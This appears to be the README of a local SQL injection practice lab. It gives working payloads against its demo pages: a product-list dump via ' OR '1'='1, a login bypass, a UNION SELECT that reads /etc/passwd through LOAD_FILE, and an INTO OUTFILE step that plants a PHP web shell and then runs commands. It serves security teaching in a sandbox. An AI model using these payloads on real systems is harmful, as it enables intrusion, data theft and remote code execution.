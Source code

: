 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

http://127.0.0.1:8781/list_products/products_page.php?value=100

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/list_products/products_page.php?value=100%27

### List all products

http://127.0.0.1:8781/list_products/products_page.php?value=100' OR '1'='1

# Login Example

## Standard

http://127.0.0.1:8781/login/login.php

Enter 'admin', 'admin'

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/login/login.php?user=user'&password=pass'

### Circumvent Login

http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1

# File Attacks

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

## Write code to server

Use `INTO OUTFILE`: 

http://127.0.0.1:8781/user_information.php?UserID=1%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8781/cmd.php?cmd=ls

